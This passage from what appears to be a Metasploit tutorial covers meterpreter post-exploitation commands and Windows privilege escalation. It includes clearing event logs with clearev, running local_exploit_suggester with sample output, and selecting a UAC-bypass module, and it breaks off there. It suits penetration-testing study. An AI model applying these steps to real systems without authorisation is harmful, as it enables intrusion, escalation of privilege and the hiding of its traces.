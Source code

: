     > **NOTE: Executing this in a Virtual Machine won't work since USB protocols work differently in it)**
  - `shell` - Gives the command prompt exactly the one we use in windows (**cmd.exe**)
    > All commands used in windows normally can be used in this shell:
    > - `ipconfig` - View network information
    > - `exit` - Exit from **windows shell** to **meterpreter** session
    > - `route` - View network routing information
    > - `net users` - View all users on the target system
  -  `clearev` - Clear the event log
  -  `exit` - exit the **meterpreter** session and return to **msfc**

- #### Privilege Escalation:

  - #### Sometimes the `getsystem` command used in the **meterpreter** session won't work to escalate privilege depending on the exploit used along with other commands like `ps`, `migrate`, `hashdump` etc. Instead of that we'll manually find out the local privilege escalation exploit. To ease on this we'll `search suggester` in **msfc** and a module called `multi/recon/local_exploit_suggester` can be used. Using that we get a list of all possible exploits that can be used to escalate our privilege in the target machine. For that we can `background` our current **meterpreter** session and make note of the session ID using the command `sessions` as we'll be entering it in the `set SESSION <backgrounded_meterpreter_session_ID>` option for the selected local exploit as follows:

    > msf\> `use exploit/multi/recon/local_exploit_suggester`
    >
    > msf **exploit(exploit/multi/recon/local_exploit_suggester)** \> `set SESSION <backgrounded_meterpreter_session_ID>`
    >
    > msf **exploit(exploit/multi/recon/local_exploit_suggester)** \> `run`
    >
    > [*] <target's_ip> - Collecting local exploits for x86/windows ...
    >
    > [*] <target's_ip> - 34 exploit are being tried...
    >
    > [+] <target's_ip> - **exploit/windows/local/bypassuac_eventvwr**: The target appears to be vulnerable.
    >
    > [+] <target's_ip> - **exploit/windows/local/ms10_015_kitrap0d**: The service is running but could not be validated.
    >
    > .
    >
    > .
    >
    > .
    >
    > [*] Post module execution completed
    
    #### Out of the several exploits shown we can try running each one of the local exploit until we succeed but instead we can make use of the `sysinfo` command in the meterpreter shell and get some amount of information about the target machine's OS and further search on that factor, reducing the amount of trial and error significantly. For now we proceed with the `exploit/windows/local/bypassuac_eventvwr` module as follows:
